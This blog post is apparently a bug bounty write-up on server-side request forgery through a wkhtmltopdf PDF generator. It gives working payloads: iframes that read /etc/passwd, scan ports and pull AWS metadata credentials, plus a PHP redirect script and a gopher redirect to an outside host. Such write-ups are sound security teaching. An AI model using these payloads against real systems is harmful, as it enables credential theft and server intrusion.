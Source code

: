 ```yaml
---
title: "SSRF Through PDF Generation"
date: 2021-05-01T12:00:00+01:00
hero: ssrf_banner.png
description: SSRF Through PDF Generation
menu:
  sidebar:
    name: SSRF Through PDF Generation
    identifier: SSRF Through PDF Exploitation
    weight: 3
---
```


This week on a BugBounty program which I left aside I found my first SSRF, here is my writeup.

## Recon
The scope is restricted to the website and its API, rather basic it allows to register as a simple user and has only a few features. 

The program has been open for several months already, I approached the site thinking I probably won't find much. 

However from the first hours I already had several P2 (IDOR). A scope perhaps more interesting than expected ... so I spent some time to observe the various features and how they work as a simple user.

After some tests I noticed a feature that allows to generate a PDF with data entered by the user, the software used is *WKHTMLTOPDF* in its version *0.12.3*. 

Interesting, especially since recently I could read the excellent presentation of Nahamsec "[Owning the cloud through SSRF and PDF generators](https://docs.google.com/presentation/d/1JdIjHHPsFSgLbaJcHmMkE904jmwPM4xdhEuwhy2ebvo/edit#slide=id.g5df2243028_2_81)", if I retained at least 1 thing from this presentation it's the sentence "*If you see a PDF generator somewhere, 9/10 it's vulnerable*".

After some tests I finally didn't manage to exploit the feature, at least not on this endpoint ! 

While continuing to use the site and its features I came across a page that allowed me to add items and then generate a PDF of them, ok ... let's try again. I first started with a basic payload:

```html
<b>TEST</b>
```

Nothing ... try something else :

```html
<a href="https://google.fr">xxx</a>
```

This time, it's well reflected in the PDF and the link is clickable, so it's possible to inject HTML!

## Exploitation

In the rush I directly wanted to load the contents of the file "/etc/passwd" with the following payload :
```html
<iframe src="file:///etc/passwd">
```

Unfortunately the iframe was empty, so I tested a first payload to check that it was possible to interact with an external resource.
```html
<iframe src="https://{MY_SERVER}/x.png">
```

While generating the PDF, I received the request to my server, which confirmed that it is possible to use an iframe, so I tested various techniques, including port scanning with a payload of the type :
```html
<iframe src="https://domain.tld:80">
<iframe src="https://domain.tld:25">
<iframe src="https://domain.tld:22">
```

When a port was not available I got a 500 error from the server, ok so I got a blind SSRF but I wanted more than a simple port scan! Then I remembered that at one point in the site when you want to access a document the URL is of the type *https://domain.tld/s3/get/document/8/{RESSOURCE_ID}*.

Hum. .., *S3* ? Maybe an AWS instance, let's test that :

```html
<iframe src="http://169.254.169.254">
```

Boom ! I have access to the AWS instance and its content, including credentials (API tokens, etc...) which are private and sensitive elements.

{{< img src="SSRF_AWS_KEY.png" align="center" title="SSRF AWS Metadata">}}

## Digging

Ok cool, this SSRF is already critical, but in the end I wanted to load a local file on the server such as "*/etc/passwd*", after some tests and bypassing technique I always end up with an empty iframe.

Then while talking with a hunter friend, he showed me a very interesting technique, a PHP code snippet that allows to include an iframe to an external URL that will redirect to 127.0.0.1 but with the possibility to include a parameter such as "*file://*"" to load a local file.

The code snippet is as follows:
```php
$loc = "http://127.0.0.1/";

if(isset($_GET['a'])){
    $loc = $_GET['a'];
}
header('Location: '.$loc);
```

So I quickly set it up on my server (You will have understood that it is necessary to have a web server with PHP installed for this piece of code to be usable).

I can now use the following payload:
```html
<iframe src="https://my_server.tld/ssrf.php?a=file:///etc/passwd">
```

I generate the new PDF and hop! I have the content of the desired file :D

## Conclusion
This SSRF is interesting because even if it may remain quite "simple", it shows that you should not stop at the first payload that works (the port scan in my case) and try to dig for the most critical scenario.

In the end, by looking closer, on the Github repository of [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) it is possible to find the following payload:
```php
<?php
  header("Location: gopher://hack3r.site:1337/_SSRF%0ATest!");
?>
```

That you only have to modify in this to get the same result as above:
```php
<?php
 header("Location: file:///etc/passwd");
?>
```

The advantage of the code snippet above is that it is possible to directly include the wrapper with the desired payload as a parameter rather than modifying the content of the php file each time.

Initially I hadn't watched this program because I didn't find it interesting, it's only several months after I decided to have a look at it, although several hunters have raised vulnerabilities I learned here that it's always interesting to go back to an "old scope".

That doesn't mean the other hunters were bad because each hunter has its own methodology and favorite vulnerabilities, especially since this is a production site so there is a strong chance that there have been changes or new features that weren't available before.
